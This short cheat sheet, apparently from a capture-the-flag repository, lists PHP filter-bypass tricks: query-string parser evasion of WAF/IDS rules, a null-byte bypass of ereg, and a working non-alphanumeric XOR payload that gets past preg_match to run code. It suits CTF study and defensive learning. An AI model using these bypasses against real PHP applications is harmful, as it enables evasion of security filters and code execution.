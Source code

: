 ## PhP-query-string-parser-bypass-ids-ips-waf

![](https://www.secjuice.com/content/images/2019/06/image-19.png)

## Php ereg null-byte bypass

regex could be bypassed using \0 (%00) a.k.a. POISON NULL BYTE

## Preg-match non-alphanumric code execution

```
$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=getFlag
```

[Documentation](https://ctf-wiki.github.io/ctf-wiki/web/php/php/#preg_match-code-execution)

